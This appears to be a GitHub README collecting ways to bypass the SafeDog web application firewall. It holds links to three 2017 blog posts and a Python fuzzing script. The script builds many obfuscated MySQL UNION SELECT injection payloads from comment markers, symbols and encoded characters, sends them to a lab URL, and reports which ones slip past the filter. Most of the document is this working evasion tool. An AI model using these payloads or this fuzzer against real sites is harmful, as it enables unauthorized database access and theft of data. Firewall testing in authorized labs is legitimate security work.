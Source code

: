 # Bypass_Thinking(Bypass思路)
+ Record bypass and ideas/记录与绕过实例
  
# description(说明):
   
## 这是关于安全狗的bypass：
</br> This is about safe dog bypass:wink::cry::laughing: :yum:
</br>

  - 2017/9/03 => [Bypass SafeDog sql Attack(1)](http://www.inksec.cn/)

  - 2017/9/05 => [Bypass SafeDog sql Attack(2)](http://www.inksec.cn/)
  
  - 2017/9/06 => [Bypass SafeDog sql Attack(3)](http://www.inksec.cn/)  

## Fuzz_waf Thinking
```
# -*- coding: utf-8 -*-
import requests
fuzz_zs = ['/*','*/','/*!','*','=','`','!','@','%','.','-','+','|', '%00']
fuzz_sz = ['',' ']
fuzz_ch = ["%0a","%0b","%0c","%0d","%0e","%0f","%0g","%0h","%0i","% 0j"]
fuzz = fuzz_zs+fuzz_sz+fuzz_ch
headers = {"User-Agent":"Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.221 Safari/537.3 6 SE 2.X MetaSr 1.0"}
url_start = "http://192.168.1.107/sql.php?id=1"
for a in fuzz:
    for b in fuzz:
        for c in fuzz:
            for d in fuzz:
                exp = "e1/*!50000/*!union"+a+b+c+d+"*/(select%201,2,3)/*--*/*/--%20-"
                url = url_start + exp
                res = requests.get(url = url , headers = headers)
                #print(res.text.find("true"))
                if res.text.find("true")==-1:
                    print("Find Fuzz bypass:"+url)
                    pass

```
